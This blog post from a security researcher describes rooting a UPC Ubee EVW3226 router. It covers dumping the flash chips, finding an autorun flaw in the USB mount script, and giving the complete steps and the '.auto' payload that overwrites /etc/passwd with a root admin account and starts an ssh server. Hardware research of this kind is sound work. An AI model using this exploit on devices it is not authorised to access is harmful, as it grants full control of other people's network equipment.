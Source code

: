 +++
Description = "UPC Ubee EVW3226 Fail"
title = "UPC Ubee EVW3226 Fail"
date = "2016-01-17T12:45:00+01:00"
metakeys = ["Ubee EVW3226", "UPC", "root shell", "hacking"]

+++

Inspired by [Blasty](https://twitter.com/bl4sty) and his [UPC Wifi key generator](https://haxx.in/upc-wifi/) I decided to take a look at my UPC router too. It's a **Ubee EVW3226** with a custom firmware by UPC providing a modified web interface and a lot of other stuff.

<!--more-->

First I tried to identify some debug pins on the board and found multiple possible UART connectors. I connected my [Buspirate](https://www.sparkfun.com/products/9544) to the first UART and got a login shell protected by a password. I tried some default passwords but was not able to get in so I needed to find another way. According to [another blog post](https://www.freeture.ch/?p=766) I found there is also a second UART connector with no password but this one was not working on my device.

So I took a deeper look at the chips on the board and identified two flash chips: *Spansion FL128PIF*. By looking at the [datasheet](http://www.spansion.com/Support/Datasheets/S25FL128P_00.pdf) I discovered there are some SPI pins on the chip to dump it's content (or write to it). So I attached a SOIC test clip on top of the flash chip and connected my [GoodFET](http://goodfet.sourceforge.net/) to it. Using the test clip is a good alternative because there is no need to desolder any chips. I was able to dump the whole 16MB memory of each chip using this method with `spiflash dump`. The address ranges to dump can be taken from the datasheet too.

The next thing to do was to extract the content of the dumped images. By using the latest development version of [binwalk](https://github.com/devttys0/binwalk) I was able to extract the file system contents of both chips. This dump only contains the firmware with no dynamic content from UPC so far so the running config is still missing.

After peeking around some binaries with IDA I found the following code in *aimDaemon*:

[![Extract Label](/img/ubee/extract_label_thumb.png)](/img/ubee/extract_label.png)

[![Extract Label](/img/ubee/check_label_thumb.png)](/img/ubee/check_label.png)

[![Extract Label](/img/ubee/execute_shell_thumb.png)](/img/ubee/execute_shell.png)

The snippets show the relevant code sections: The binary extracts the label of an external attached USB device and if it matches `EVW3226` it executes `/var/tmp/mount-usb.sh` with `go` as a first parameter.

`mount_usb.sh`:
```bash
#!/bin/bash
if [ $1 == "go" ]; then
  dev_path=$(blkid /dev/sd |cut -c 1-9)
  eval $(blkid /dev/sd |cut -d " " -f 2)
  eval $(blkid /dev/sd |cut -d " " -f 3)
  eval $(blkid /dev/sd |cut -d " " -f 4)
  echo "dev_path=\"$dev_path\" LABEL=\"$LABEL\" UUID=\"$UUID\" TYPE=\"$TYPE\"" >> /tmp/mountlist

  umount_folder=$(mount | grep "/var/tmp" | awk '{print $3}')
  for curr_folder in $umount_folder ; do
      if [ -n "$curr_folder"]; then
  		umount -l $curr_folder
          rm -fr $curr_folder
  	  fi
  done

  for curr_folder in $UUID ; do
    mkdir /var/tmp/media/$curr_folder -p
    if [ "$TYPE" == "ntfs" ]; then
      	echo "ntfs-3g "$dev_path" /var/tmp/media/"$curr_folder
      	ntfs-3g $dev_path /var/tmp/media/$curr_folder
    else
      	echo "mount "$dev_path" /var/tmp/media/"$curr_folder
      	mount $dev_path /var/tmp/media/$curr_folder
    fi
    if test -f /var/tmp/media/$curr_folder/.auto
	then
	    rm -fr /var/tmp/disk
	    cd /var/tmp
	    ln -s /var/tmp/media/$curr_folder disk
	   	chmod +x /var/tmp/media/$curr_folder/.auto
	   	sh /var/tmp/media/$curr_folder/.auto
	fi
    done
    if [ $2 == "1" ]; then
    	killall minidlna
    	/fss/fss2/sbin/minidlna -R -f /var/tmp/minidlna.conf
    fi
else
echo $1 ... >> /var/tmp/.usbadd
fi
```

As you may see this script mounts the usb stick and checks if the stick has a `.auto` file present. If the file exists a symbolic link to `/var/tmp/disk` is created and the `.auto` file is executed with `sh`.

So by creating an USB stick with the correct label and this autorun file we are able to execute any commands we like on the router.

The device is capable of running in router or in bridge mode. It looks like there is some check in place to only execute the script when running in `router` mode so be sure to switch to this mode if you want to try it on your own.

So lets first prepare our USB stick:

```bash
umount /dev/sdb1
fdisk /dev/sdb # clear partition table and create a new primary partition
mkfs.vfat /dev/sdb1
mlabel -i /dev/sdb1 ::EVW3226
```

Let's try to start a telnet server on the device by putting the following in the `.auto` file:

```bash
telnetd &
```

After plugging the stick in and waiting a few seconds I was able to connect via telnet. Unfortunately it seems some process is killing `telnetd` on a regular basis so it's no stable way to get access to the device.

Luckily there is also dropbear present so we can start a ssh server. The filesystem is missing the required hostkeys so I recreated them on a Ubuntu VM on the USB stick by

```bash
dropbearkey -t rsa -f /media/firefart/EVW3226/dropbear_rsa_host_key
```

As I was not able to crack the password hashes in a reasonable time we also need to add our own user. I did this by just overwriting `/etc/passwd` with an `admin:admin` hash.

So the final `.auto` file looks like

```bash
#!/bin/bash
echo admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh > /etc/passwd
dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22
```

After plugging in the USB-Stick and waiting a few seconds we can connect to the device using ssh and login using the password `admin`.

```bash
ssh admin@192.168.0.1
```

The next steps are to peek around the device. There are already a lot of passwords and private keys lying around in the firmware image.

There was also a great talk on 32C3 - [Beyond Your Cable Modem](https://media.ccc.de/v/32c3-7133-beyond_your_cable_modem) which gives some good ideas what to check next.
